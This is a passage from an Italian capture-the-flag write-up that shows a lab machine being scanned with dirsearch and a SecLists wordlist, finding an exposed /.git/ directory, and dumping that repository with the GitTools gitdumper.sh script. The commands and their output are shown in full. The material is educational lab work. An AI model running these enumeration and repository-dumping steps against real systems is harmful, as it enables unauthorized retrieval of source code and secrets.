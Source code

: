 Lo stesso risultato si poteva ottenere usando il tool [dirsearch](https://github.com/maurosoria/dirsearch) con le [opportune wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/7ccb85c376c0eeb7fc6d9173641f079d6c5ee31e/Discovery/Web-Content/quickhits.txt)
```
$ cd ~; mkdir ctf; cd ctf
$ git clone https://github.com/maurosoria/dirsearch.git
Cloning into 'dirsearch'...
[...]
$ cd dirsearch/
$ wget -O quickhits.txt https://raw.githubusercontent.com/danielmiessler/SecLists/7ccb85c376c0eeb7fc6d9173641f079d6c5ee31e/Discovery/Web-Content/quickhits.txt
$ ./dirsearch.py -w ./quickhits.txt -u http://192.168.56.102 -e html
[...]
Target: http://192.168.56.102

[01:47:37] Starting: 
[01:47:37] 403 -  564B  - /.git/
[01:47:37] 301 -  178B  - /.git  ->  http://192.168.56.102/.git/
[01:47:37] 200 -   23B  - /.git/HEAD
[01:47:37] 301 -  178B  - /.git/logs/refs  ->  http://192.168.56.102/.git/logs/refs/
[01:47:37] 200 -  272B  - /.git/config
[01:47:37] 403 -  564B  - /.git/logs/
[01:47:37] 200 -    2KB - /.git/index
[01:47:37] 200 -  894B  - /.git/logs/HEAD
[...]
[01:47:40] 200 -    1KB - /README.md

Task Completed
```
Anche in questo caso con ```dirsearch```rileviamo la cartella ```/.git/``` oltre che altre dir/file (return code http 200).

A questo punto cerchiamo di scaricare il contenuto del repo git che abbiamo trovato e per fare questo utilizziamo lo script ```gitdumper.sh``` disponibile sul [repo GitTools](https://github.com/internetwache/GitTools)
```
$ cd ~/ctf/
$ wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
[...]
$ chmod a+x gitdumper.sh
$ ./gitdumper.sh 192.168.56.102/.git/ gitrepo
[...]
[*] Destination folder does not exist
[+] Creating gitrepo/.git/
[+] Downloaded: HEAD
[...]
[+] Downloaded: objects/0c/c3eadf0da8e7750a0cf9aa1004c726abad81ca
```
Si va a verificare nella cartella ```gitrepo``` quanto scaricato
```
$ tree gitrepo/.git/
gitrepo/.git/
├── COMMIT_EDITMSG
├── config
├── description
├── HEAD
├── index
├── info
│   └── exclude
├── logs
│   ├── HEAD
│   └── refs
│       ├── heads
│       │   └── master
│       └── remotes
```